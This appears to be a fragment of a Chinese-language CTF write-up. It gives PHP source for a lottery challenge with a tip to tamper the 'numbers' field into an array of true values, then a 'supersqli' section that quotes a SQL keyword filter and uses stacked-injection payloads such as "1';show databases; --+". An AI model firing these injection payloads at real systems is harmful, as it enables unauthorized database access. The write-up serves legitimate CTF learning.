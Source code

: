 ```php

function register($req){
	$name = $req['name'];
	$_SESSION['name'] = $name;
	$_SESSION['money'] = 20;

	response(['status'=>'ok']);
}


//查找action里面是什么动作
//'{"action":"buy","numbers":"1234567"}';
switch ($data['action']) {
	case 'buy':
		require_keys($data, ['numbers']);
		buy($data);
		break;

	case 'flag':
		flag($data);
		break;

	case 'register':
		require_keys($data, ['name']);
		register($data);
		break;
	
	default:
		response_error('invalid request');
		break;
}
```

burp抓包把"number"改为[true*7]

## supersqli

return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);
把关键词的大小写都匹配了

可以考虑堆叠注入

```sql
/?inject=1';show databases; --+
```

发现
supersqli
ctftraining

因为自己已经在某个库里了

```php
/?inject=1';show tables; --+
```
